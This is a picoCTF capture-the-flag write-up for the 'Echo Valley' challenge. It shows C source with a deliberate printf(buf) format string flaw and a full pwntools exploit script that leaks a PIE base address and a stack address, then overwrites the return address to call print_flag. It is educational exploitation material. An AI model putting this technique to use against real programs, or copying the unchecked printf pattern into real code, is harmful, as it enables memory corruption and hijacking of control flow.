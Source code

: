 ```yaml
---
title: "Echo Valley"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: flag: picoCTF{REDACTED}
---
```

> The echo valley is a simple function that echoes back whatever you say to it.
> But how do you make it respond with something more interesting, like a flag?

by Shuailin Pan (LeConjuror)

---

<details>
<summary>Hint 1</summary>

Ever heard of a format string attack?
</details>

---

The challenge provides a binary `valley` and a remote server to connect to. The binary is a simple program that reads input from the user and prints it back to the user. The binary also contains a function `print_flag` that reads the flag from a file and prints it to the user.

```c
void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }
    
    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}

void echo_valley() {
    printf("Welcome to the Echo Valley, Try Shouting: \n");

    char buf[100];

    while(1)
    {
        fflush(stdout);
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
          printf("\nEOF detected. Exiting...\n");
          exit(0);
        }

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
    fflush(stdout);
}
```

The goal of the challenge is to print the flag to the user. The `print_flag` function is not called in the binary, so we need to find a way to call it. The binary is vulnerable to a format string attack. We can use the format string vulnerability to overwrite some memory to call the `print_flag` function. The binary is compiled with the `FULL RELRO` option, so we cannot overwrite the GOT table. We can use another technique to call the `print_flag` function. We can overwrite the return address of the `echo_valley` function to call the `print_flag` function.

The binary is compiled with the `PIE` option, so the base address of the binary is randomized. We can leak the base address of the binary by using the format string vulnerability. We can also leak the stack address by using the format string vulnerability. We can calculate the return address of the `echo_valley` function by adding 8 to the leaked stack address. We can calculate the offset of the format string vulnerability by using the `FmtStr` class from the `pwntools` library. We can then use the `fmtstr_payload` function from the `pwntools` library to create a payload to overwrite the return address of the `echo_valley` function to call the `print_flag` function.

```py
from pwn import *

binary = './valley'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('shape-facility.picoctf.net', 65453)

def exec_fmt(payload):
    p = process(binary)
    p.recvuntil(b'Welcome to the Echo Valley, Try Shouting:')
    p.sendline(payload)
    p.recvuntil(b'You heard in the distance: ')
    recv = p.recv()
    p.close()
    return recv

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

r.recvuntil(b'Welcome to the Echo Valley, Try Shouting:')

r.sendline(b'%21$p.%20$p')
r.recvuntil(b'You heard in the distance: ')
leak = r.recvline().strip().split(b'.')
main_address_ = int(leak[0], 16)
stack_address = (int(leak[1], 16))
log.info(f'main_address_: {hex(main_address_)}')

base_address = main_address_ - (0x555555555413 - 0x555555554000)
log.info(f'base_address: {hex(base_address)}')

ret_address = stack_address + 8

payload = fmtstr_payload(offset, { ret_address: base_address + e.sym['print_flag'] }, write_size='short')
r.sendline(payload)
r.sendline(b'exit')

r.interactive()
```

